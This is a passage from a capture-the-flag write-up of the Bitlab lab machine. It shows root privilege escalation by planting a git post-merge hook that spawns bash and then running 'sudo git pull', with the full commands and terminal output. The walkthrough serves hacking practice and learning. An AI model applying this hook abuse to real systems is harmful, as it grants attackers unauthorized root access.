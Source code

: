 We create a script named as ```post-merge``` inside ```.git/hooks``` to get a shell as root and give to it execution rights:

```console
www-data@bitlab:/tmp/profile$ cd .git/hooks
cd .git/hooks
www-data@bitlab:/tmp/profile/.git/hooks$ echo 'exec /bin/bash 0<&2 1>&2' > post-merge
< 'exec /bin/bash 0<&2 1>&2' > post-merge
www-data@bitlab:/tmp/profile/.git/hooks$ chmod u+x post-merge
chmod u+x post-merge
```

once that is done, we upload any file (doesn't matter) to gitlab and merge it, once that is done from inside this location we have rights, we run ```sudo git pull``` and with that we will be root:

```console
www-data@bitlab:/tmp/profile$ sudo git pull
sudo git pull
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (3/3), done.
Unpacking objects: 100% (3/3), done.
remote: Total 3 (delta 2), reused 0 (delta 0)
From ssh://localhost:3022/root/profile
   35da5b2..cbbc729  master     -> origin/master
 * [new branch]      patch-2    -> origin/patch-8
Updating 35da5b2..cbbc729
Fast-forward
 1asf | 1 +
 1 file changed, 1 insertion(+)
 create mode 100644 1asf
root@bitlab:/tmp/profile# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bitlab:/tmp/profile# cd /root    
cd /root
root@bitlab:~# ls   
ls 
root.txt
root@bitlab:~# wc -c root.txt
wc -c root.txt
33 root.txt
```

with this we can already go to ```/home``` and see from there which user and it's respective flag.

## Beyond root: 

Ok, as I said at the begining of the post, there are 2 paths to get this box:

1 - Intended way (user -> root) by doing reversing.
2 - Taking advantage of this misconfigurations.

I will go now into the 1, but I will only cover how to get user, and in the future once I know some reversing, I will post the last piece.
